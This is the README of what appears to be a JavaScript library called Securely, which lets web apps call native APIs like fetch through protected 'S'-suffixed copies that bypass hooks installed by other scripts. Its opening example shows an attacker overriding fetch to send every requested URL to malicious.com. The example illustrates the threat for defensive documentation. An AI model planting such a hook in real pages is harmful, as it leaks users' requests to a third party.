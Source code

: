 # Securely

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app:

```javascript
// attacker hooks fetch API and hijacks innocent requests:

const originalFetch = fetch;
fetch = function(url) {
  originalFetch('https://malicious.com/hijacked?real_url=' + url);
  return originalFetch(url);
};

// without securely:

fetch('https://example.com/get_all_imgs'); // goes through attacker's hook

// with securely:

securely(_ => fetchS('https://example.com/get_all_imgs')); // avoids attacker's hook by using native fetch API
```

## Usage

In order to use Securely you must load the Securely script and better to do so as the first javascript code to be executed within the web app:

```html
<script src="./securely.prod.js"></script>
```

You may let other javascript code load and execute before Securely, but that would mean that such code will be able to break Securely's behaviour and ultimately disable its effect completely.

Once you loaded Securely, you have to declare what native APIs you wish to have access to.
You will be able to use a new exposed API called `SECURE` to do so:

```javascript
const securely = SECURE(window, config);
```

* `@window` - the realm you wish to apply securely to (if you wish to secure the realm of your current context, just pass `window`)
* `@config` - an object indicating the native APIs you wish to have access to
* `@returns` - a function that is the only key to enable access to the natives you wished to secure

The simple ones are `objects`:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        
    }
});

// securely use them

const myScript = securely(_ => {
  return document.createElementS('script');
});

securely(_ => {
  fetchS('https://example.com/sensitive_request/');
});
```

But if you wish to secure properties/methods of `prototypes`, you can achieve that as well:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
    
    },
    prototypes: {
        'Array': ['includes', 'push', 'slice'],
    }
});

// securely use them

const result = securely(_ => {
  const arr = ['a', 'b', 'c'];
  if (arr.includesS('b')) {
    return arr.sliceS(2);
  }
});
```

## Securely Technically Explained (What's the `S` suffix for?)

You may have noticed that in order to use your secured natives, not only that you have to do so from within the `securely` callback, but you also have to call your native API with an `S` suffix.

This is because while allowing access to native APIs we wish to maintain the possibility to access the normal state of those APIs within the web app (whether if they were hooked by anyone or not).

Hooking is a common practice that many third party vendors do in order to provide their services, and in many cases in order for the app to work smoothly it needs to go through such hooked APIs.

So in order to not harm the web app ecosystem, we choose to not alter but to append the securely functionallity. 
We do that by adding `S` to the end of the desired native API.

So if for example you wish to call fetch normally and go through any potential hook, you do so the way you're used to:

```javascript
fetch('https://example.com/this_is_just_a_normal_request');
```

But if you want to call fetch and this time make sure to avoid any potential hooks (whether or not malicious), that's where securely comes in:

```javascript
securely(_ => fetchS('https://example.com/this_request_is_extra_sensitive'));
```

